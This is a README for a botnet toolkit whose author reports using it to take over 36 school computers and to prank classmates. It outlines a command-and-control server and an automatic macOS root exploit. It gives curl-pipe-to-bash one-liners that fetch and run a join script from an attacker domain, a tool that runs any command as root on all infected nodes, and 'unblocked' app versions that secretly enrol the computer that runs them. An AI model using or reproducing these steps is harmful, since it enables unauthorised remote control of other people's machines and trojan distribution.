 # net
Some helpful scripts for building and managing small botnets.

## Why I wrote this
I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the hacking class in which I partook. Such behavior was encouraged, and I did not violate any rules.

I also used this code to prank a few of my classmates in my Hon. Chemistry 10 class.

Please note that I strictly use this code for pranks and for educational purposes. I do not run a DDoSsing botnet or other such illegal operation and do not condone the use of this code to run such an operation.

## Compatible Operating Systems
* macOS/OS X - on 10.11 (El Capitan), exploit will be used to gain a root shell and payload will be automatically delivered. For other versions, root must be obtained manually.
* Debian-based GNU/Linux - Tested on Kali Linux and Raspbian, should work on other distros. Root exploit isn't automatic on any Linux, so you'll need to already have root access.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes, such as new nodes' joining signals, updates on connection state, and other data. All requests to the server are printed to the terminal, and important ones are written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
For Macs, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, then run and remove it.

Some code to use a Rubber Duck USB as a delivery mechanism for Macs can be found [here](https://github.com/ErikBoesen/duck).

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Some code to use a Rubber Duck USB as a delivery mechanism for Linux can be found [here](https://github.com/ErikBoesen/duck-kali).

Here are simple one-liners to join the botnet (I recommend purchasing a simple domain for easy C&C):

Mac:
```sh
curl -L [domain]:2042/mac/join.sh |bash
```
Linux:
```sh
curl -L [domain]:2042/linux/join.sh |bash
```

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online. `die.sh` works strictly on Macs, and will kill open applications, turn off the screen, and initiate shutdown on the computer owned by the student with the provided username. Note: Don't do this.

### Apps
The `apps` directory contains some "unblocked" versions of various applications. These versions will work on secured MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
